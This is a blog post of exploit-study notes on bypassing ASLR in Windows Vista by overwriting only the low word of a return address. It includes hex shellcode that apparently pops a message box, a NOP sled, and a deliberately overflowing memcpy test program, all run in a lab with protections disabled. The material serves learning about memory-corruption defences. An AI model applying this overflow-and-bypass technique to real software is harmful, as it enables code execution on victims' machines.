

Source: [Moeomu's blog](/posts/exploit-learning-notes-018-using-partial-overlay-location/)

## Principle

- The image randomization instructions randomize the full two bytes of the image load base address, the consequence of this is that the springboard is always available, so you can use this to bypass ASLR
- If you attack memcpy, you can control the return value between `0xXXXX0000` and `0xXXXXFFFF`, and if you attack str-like function attacks, you can control the address to one between `0xXXXX0100` and `0xXXXX00FF`.

## Process

- first find a jmp eax assembly code within the compiled program, followed by the low word of its address as the `off by word` address, fill in the shellcode
- Calculate the buffer size, after the overflow will be normal

## Code

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## Start experiment

> Experimental environment: system: Windows Vista SP0, system DEP status: Optin default, compiler: Visual Studio 2008, optimization: disable optimization, GS option: off, DEP option: /NXCOMPAT:NO, build version: release

- Compile the program, run it, the window pops up directly and succeeds, and restart the same, as shown in the picture


